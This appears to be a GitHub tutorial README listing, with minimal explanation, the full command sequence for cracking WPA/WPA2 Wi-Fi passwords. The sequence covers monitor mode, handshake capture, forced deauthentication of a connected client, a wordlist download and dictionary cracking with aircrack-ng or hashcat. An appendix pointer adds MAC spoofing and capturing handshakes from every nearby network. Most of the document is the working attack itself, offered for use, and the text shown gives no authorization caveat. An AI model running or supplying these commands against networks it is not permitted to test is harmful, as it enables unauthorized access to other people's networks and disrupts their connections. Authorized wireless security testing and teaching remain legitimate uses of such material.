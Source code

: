 Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.

```bash
# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## Appendix

The response to this tutorial was so great that I've added suggestions and additional material from community members as an [appendix](appendix.md). Check it out to learn how to:

- Capture handshakes and crack WPA passwords on MacOS/OSX
- Capture handshakes from every network around you with `wlandump-ng`
- Use `crunch` to generate 100+GB wordlists on-the-fly
- Spoof your MAC address with `macchanger`

A [Chinese version](appendix.zh.md) of the appendix is also available.

## Attribution

Much of the information presented here was gleaned from [Lewis Encarnacion's awesome tutorial](https://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html). Thanks also to the awesome authors and maintainers who work on Aircrack-ng and Hashcat. 

Overwhelming thanks to [neal1991](https://github.com/neal1991) and [tiiime](https://github.com/tiiime) for translating this tutorial into [Chinese](README.zh.md). Further shout outs to [yizhiheng](https://github.com/yizhiheng), [hiteshnayak305](https://github.com/hiteshnayak305), [enilfodne](https://github.com/enilfodne), [DrinkMoreCodeMore](https://www.reddit.com/user/DrinkMoreCodeMore), [hivie7510](https://www.reddit.com/user/hivie7510), [cprogrammer1994](https://github.com/cprogrammer1994), [0XE4](https://github.com/0XE4), [hartzell](https://github.com/hartzell), [zeeshanu](https://github.com/zeeshanu), [flennic](https://github.com/flennic), [bhusang](https://github.com/bhusang), [tversteeg](https://github.com/tversteeg), [gpetrousov](https://github.com/gpetrousov), [crowchirp](https://github.com/crowchirp) and [Shark0der](https://github.com/shark0der) who also provided suggestions and typo fixes on [Reddit](https://www.reddit.com/r/hacking/comments/6p50is/crack_wpawpa2_wifi_routers_with_aircrackng_and/) and GitHub. If you are interested in hearing some proposed alternatives to WPA2, check out some of the great discussion on [this](https://news.ycombinator.com/item?id=14840539) Hacker News post.
